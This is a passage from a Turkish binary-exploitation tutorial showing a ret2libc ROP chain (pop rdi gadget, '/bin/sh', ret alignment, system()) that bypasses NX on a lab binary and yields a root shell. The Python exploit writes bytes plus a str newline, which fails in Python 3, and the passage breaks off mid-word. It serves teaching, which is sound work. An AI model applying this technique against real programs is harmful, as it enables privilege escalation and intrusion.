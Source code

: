 bir `ret` adresi seçebilirsiniz, ya da `ropper` ile herhangi bir `ret` adresi bulabilirsiniz.

Hadi şimdi exploitimize bu yeni `ret` adresini ekleyelim:
```python
from struct import pack

filler = b"A"*40
poprdi = pack("<Q", 0x7ffff7dff265) # pop rdi; ret
binsh  = pack("<Q", 0x7ffff7f72e28) # /bin/sh
ret    = pack("<Q", 0x7ffff7dff266) # ret
system = pack("<Q", 0x7ffff7e26c30) # system()

f = open("/tmp/ex", "wb")
f.write(filler+poprdi+binsh+ret+system+"\n")
f.close()
```
Yeni exploitimizi denemek için:
```
root@o101:~/0x2# python3 exploit.py && (cat /tmp/ex; echo; cat) | ./0x2.elf
Hello, what's your name?
Nice to meet you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAe!
id
uid=0(root) gid=0(root) groups=0(root)
```
Ta-da! NX bellek korumasına rağmen shell çalıştırmayı başardık.

> [!IMPORTANT]
> Dö

---
[Önceki](0x1.md) | [Sonraki](0x3.md)
